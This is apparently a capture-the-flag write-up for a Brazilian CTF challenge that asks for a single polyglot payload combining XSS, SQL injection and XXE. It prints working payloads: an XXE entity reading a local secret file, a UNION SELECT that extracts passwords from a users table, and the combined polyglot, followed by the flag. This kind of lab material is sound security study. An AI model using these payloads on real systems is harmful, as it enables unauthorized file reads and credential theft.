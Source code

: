# A Payload To Rule Them All

This is a polyglot challenge. Unfortunately I don't have the challenge statement any more, but the only hint was to write an XSS/SQLi/XXE in a single payload. 

We know how each payload is parsed according to the [source](Payload/source)

XXE:     
``var doc = libxml.parseXml(payload, { noent: true ,nonet: true })``

XSS:     
``await page.goto(`data:text/html,<script>${payload}</script>`)``

SQLI:     
``const sqli = await query(`SELECT * from posts where id='${payload}'`)``

So the first thing I did was to run it locally on node, since the source was given.

Due to the logic at the end of the code:     
<details>
  <summary>Code Logic</summary>   
  
```
  Promise.all([xss,sqli]).then( function( values ){
                if ( values[0] && values[1] && xxe ) {
                        console.log("parabens hackudo")
                } else {
                        console.log("hack harder")
                }

                process.exit(0)
        })
	
}
```
   </details>

I found out that it is possible to declare `xss=true` and it will be rendered as having passed the XSS payload tester.

So I worked on the XXE, by using a typical payload to read the `xxe_secret` file shown in the source:     
`<?xml version="1.0" ?><!DOCTYPE abc [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">`

This is a typical XXE payload I grabbed off the net and replaced with my own file path. And this likewise passed the XXE payload tester.

The hard part is the SQLi, which I got stuck for a long while due to a mistaken notion and *spaces*. So anyway I got the idea from a friend to just bruteforce it and came up with the following payload, which passed the SQLi payload tester:     

```
UNION SELECT password, 1, 2 FROM users; -- 
```     
*(The space at the end is important!!)*

We then combine the payloads into one like this, while bypassing the `sanitizeHTML` function using a random tag instead of script tag, and arranging the payload according to how it gets parsed:     
<details>
  <summary>Final Payload</summary> 
  
`<?xml version="1.0" ?><!DOCTYPE abc [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><!ENTITY lolwat SYSTEM "' UNION SELECT password, 1, 2 FROM users; -- '>">]><abc><b>";xss=true;//</b><foo>&xxe;</foo></abc>`
   </details>

And got the flag!
<details>
  <summary>FLAG</summary>   
  
  `CTF-BR{p4yl04d_p0lygl0ts_4r3_m0r3_fun_th4n_f1l3typ3s}`
   </details>
